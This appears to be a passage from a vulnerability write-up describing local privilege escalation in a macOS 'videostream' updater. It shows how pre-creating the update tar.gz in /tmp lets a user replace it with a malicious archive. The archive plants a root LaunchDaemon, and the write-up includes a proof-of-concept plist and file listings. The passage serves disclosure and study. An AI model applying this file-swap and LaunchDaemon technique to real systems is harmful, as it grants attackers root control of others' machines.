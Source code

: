 # File Permissions

We previously identified that the update process writes the updated `manifest.json` file to `/tmp/[PID]`, and if a newer version is needed, it will be placed in `/tmp/videostream_0.5.0.tar.gz`. The installer creates a file with root privileges in the `/tmp` directory.

```bash
-rw-r--r--   1 root      wheel  66792963 Feb  2 21:25 videostream_0.5.0.tar.gz
```

The first problem is that we can’t override this file due to a lack of permissions. To circumvent this restriction, we could create an empty file before the installer runs.

```bash
-rw-r--r--   1 danrevah  wheel     0 Feb  3 21:33 videostream_0.5.0.tar.gz
```

Next, when the installer runs the update script, it will be written into the previously created file while retaining the same permissions.

```bash
-rw-r--r--   1 danrevah  wheel  66792963 Feb  2 21:37 videostream_0.5.0.tar.gz
```

Good news! This means we can control this file and replace it with our tar.gz file. Our malicious tar.gz file will contain the following structure:

- Library
    - LaunchDaemons
        - `com.example.proof.plist`

Let’s create a LaunchDaemon POC that creates a file named `/tmp/proof`. We’ll do that by adding the following content to `com.example.proof.plist`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
  <dict>
    <key>Label</key>
    <string>com.example.proof</string>
    <key>ProgramArguments</key>
    <array>
      <string>touch</string>
      <string>/tmp/proof</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
  </dict>
</plist>
```

As the `tar.gz` file will be extracted by the update script under the root path `/`, we will write directly to `/Library/LaunchDaemons/com.example.proof.plist`. As we learned earlier, this script would run with root privileges, meaning we can run any command as root!
